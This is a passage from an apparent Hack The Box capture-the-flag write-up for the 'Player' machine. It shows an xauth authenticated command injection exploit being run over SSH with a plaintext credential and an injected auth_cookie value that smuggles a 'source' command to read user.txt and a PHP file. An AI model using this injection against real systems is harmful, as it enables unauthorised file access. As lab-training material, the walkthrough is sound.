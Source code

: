 # Xauth Command Injection

The one that seems promising is Xauth Authenticated Command Injection.

Trying it

    root@kali:~/files/htb/boxes//assets/images/Player/ssh-6686# python exploit.py player.htb 6686 telegen 'd-bC|jC!2uepS/w'
    INFO:__main__:connecting to: telegen:d-bC|jC!2uepS/w@player.htb:6686
    INFO:__main__:connected!
    INFO:__main__:
    Available commands:
        .info
        .readfile <path>
        .writefile <path> <data>
        .exit .quit
        <any xauth command or type help>

    #>

    INFO:__main__:connecting to: telegen:d-bC|jC!2uepS/w@player.htb:6686         
    INFO:__main__:connected!        
    INFO:__main__:                        
    Available commands:                
        .info
        .readfile <path>
        .writefile <path> <data>
        .exit .quit
        <any xauth command or type help>

    #>

we can read user.txt

    #> .readfile user.txt
    DEBUG:__main__:auth_cookie: 'xxxx\nsource user.txt\n'
    DEBUG:__main__:dummy exec returned: None
    INFO:__main__:30e4....

Now we couldn't read fix.php with ffmpeg exploit. Lets try to read it now

    #> .readfile /var/www/staging/fix.php
    DEBUG:__main__:auth_cookie: 'xxxx\nsource /var/www/staging/fix.php\n'
    DEBUG:__main__:dummy exec returned: None
    INFO:__main__:<?php
    class
    protected
    protected
    protected
    public
    return
    }   
    public            
    if($result
    static::passed($test_name);
    }                      
    static::failed($test_name);
    }
    }      
    public
    if($result          
    static::failed($test_name);
    }      
    static::passed($test_name);
    }   
    }                   